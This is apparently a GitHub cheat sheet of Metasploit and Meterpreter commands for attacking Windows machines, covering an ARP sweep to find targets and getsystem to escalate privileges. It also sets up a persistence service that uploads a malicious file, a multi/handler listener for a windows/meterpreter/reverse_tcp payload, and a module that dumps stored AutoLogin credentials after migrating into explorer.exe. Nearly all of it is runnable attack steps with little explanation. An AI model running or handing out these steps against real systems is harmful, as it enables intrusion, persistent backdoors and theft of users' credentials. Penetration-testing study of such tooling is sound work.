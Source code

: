 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
```

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



#### Killing Active Sessions
```
sessions -K
```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
```
>Note : Use same LHOST and LPORT as used previously.

#### Dumping Autologin information
> To extract AutoLogin stored credentials from the target machine we need to migrate current process to explorer.exe sothat we have full control to users environment.
```
migrate -N explorer.exe

background
use post/windows/gather/credentials/windows_autologin
set SESSION 3
exploit
```
![Screenshot at 2022-12-26 12-57-43](https://user-images.githubusercontent.com/85208639/209517391-160c55de-c5c9-44d8-a0d4-adc2a5fd7f17.png)



